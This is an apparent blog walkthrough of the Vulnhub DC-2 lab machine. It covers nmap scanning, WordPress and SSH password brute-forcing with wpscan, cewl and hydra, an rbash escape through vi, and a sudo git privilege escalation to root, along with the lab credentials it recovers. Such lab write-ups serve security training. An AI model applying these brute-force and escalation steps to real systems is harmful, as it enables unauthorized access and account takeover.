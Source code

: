 ```yaml
---
layout: single
title: Vulnhub DC-2 Walkthrough 
date: 2023-10-19
author_profile: true
categories:
  - DC-Series
tags: []
header:
  overlay_image: /assets/images/dc-1/cover.png
  overlay_filter: 0.3  # optional, darkens the image for readability
  caption: "DC-1 Vulnhub Walkthrough"
excerpt: "Step-by-step walkthrough of the DC-1 machine from Vulnhub."
feature_row:
  - image_path: /assets/images/dc-1/cover.png
    alt: "DC-1 Cover"
    title: "DC-1 Walkthrough"
    excerpt: "A practical guide to rooting the DC-1 Vulnhub machine."
    url: "#"
    btn_label: "Read More"
    btn_class: "btn--primary"
toc: true
toc_sticky: true
---
```


This box provided a valuable learning experience. To gain the initial foothold, I created a custom word list using the 'cwel' tools. After generating the word list, I executed WPScan with a password brute-force attack, which resulted in discovering two valid credentials for the web console. However, neither of these accounts had admin privileges, so we couldn't obtain a shell from there.

Next, we attempted SSH login, and Tom successfully logged into the machine. The default shell for the 'tom' user was 'rbash,' but we managed to escape from it using the 'vi' editor. This allowed us to access 'flag3.txt,' which contained a clue for switching to the 'jerry' user. We used the passwords obtained from WordPress for 'jerry,' and with 'jerry,' we ran 'git' as root. We successfully abused this to escalate privileges and gain root access.

# Information Gathering

First, I want to start with Nmap to identify the open ports and their associated services. If possible, Nmap will also provide information about the service versions and the operating system. This is a good starting point when working with any assets.


```bash
ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) ; nmap -p$ports -sC -sV -oN nmap/service_scan $IP

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The Nmap results reveal that only two ports are open: port 80 and port 7744, which are hosting the HTTP and SSH servers, respectively. However, the SSH server is listening on an unusual port, as the developer has changed the default one. Unfortunately, I currently don't have any credentials to work with SSH, so I'll focus on the web server for now. 

Nmap indicates that it's redirecting to '[http://dc-2/](http://dc-2/)'. So, as a first step, let's add this entry to our hosts file.

```bash
echo '192.168.197.135 http://dc-2' | sudo tee -a /etc/hosts
```

Now we can access the web server through the url.

# Manual Inspection

![](/assets/images/dc-2/0.png)

It's a WordPress application with a navigation bar containing some links, but there doesn't seem to be any interactive content on the web server. The first idea that came to my mind is to initiate a scan of the application using WPScan. Since there isn't anything to interact with on the web server, I'd like to start by generating a password word list and then run WPScan for potential password brute-forcing in case I discover any valid usernames. To create the word list, I'll make use of the built-in tools available in Kali Linux, specifically the 'cweI' tool.

```bash
Command: cewl -d 3 -w password.txt $URL
Response: CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

![](/assets/images/dc-2/1.png)

Now that we have the word list, we can proceed with running WPScan. Typically, WordPress can reveal usernames if it's not configured securely. One common approach is to first enumerate the users and then construct the word list for the brute force attack. However, to simplify the process, I decided to take a shortcut and performed this step once.

```bash
wpscan --enumerate --passwords password.txt --url $URL

[+] URL: http://dc-2/ [192.168.197.135]
[+] Started: Wed Oct 18 03:58:39 2023

Interesting Finding(s):

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen

[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
--- snip ---
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

This time, I was fortunate enough to discover three users, including the admin. Additionally, it identified passwords for two of the users, except for the admin.

![](/assets/images/dc-2/2.png)

I have checked both users account none of them are admin. So there is no way to get shell from there. As we have two pair of valid user credentials and we saw earlier ssh server is open lets try to attempt password re-use attack against SSH.

SSH brute-force

```bash
hydra -L users.txt -P password.txt ssh://dc-2:7744

[7744][ssh] host: dc-2   login: tom   password: parturient
```

The tom user use the same password for web application and the ssh login. 

# Creds

<aside>
💡 jerry:adipiscing
tom:parturient

</aside>

# Initial Foothold

As hydra confirm tom’s password is valid for ssh, we can just login through ssh.

![](/assets/images/dc-2/3.png)

# Escaping rbash

The default shell is set for tom user was rbash. Which is a restricted bash environment. We need to escape this bash environment for better control over the system. I found some technique, as the vi is present so i decide to use the vi technique.

```bash
vi
:set shell=/bin/sh
:shell
/bin/bash
export PATH=/bin/:/usr/bin/:/usr/local/bin:$PATH
```

![](/assets/images/dc-2/4.png)

Now everything is okay i have a regular shell on the system.

# Post Enumeration

After escaping the 'rbash' shell, I simply ran the 'ls' command and discovered 'flag3.txt.' Inside 'flag3.txt,' there was a message indicating that Tom should switch over to the 'jerry' user. I attempted to switch using the password acquired from WordPress, and it succeeded.

![](/assets/images/dc-2/5.png)

After switch over to jerry i check the sudo permission for the jerry and found jerry can run git with sudo without password.

![](/assets/images/dc-2/6.png)

This is a possible way to elevate our privilege as root. I searched google and found GTFObins exploit.

# Privilege Escalation

At this point escalate our privilege is very easy. We just need to run git using sudo and add some extra flags -p help config and that’s it and we are root.

```
sudo git -p help config
!/bin/sh
```

![](/assets/images/dc-2/root.png)

#h@ppyh@cking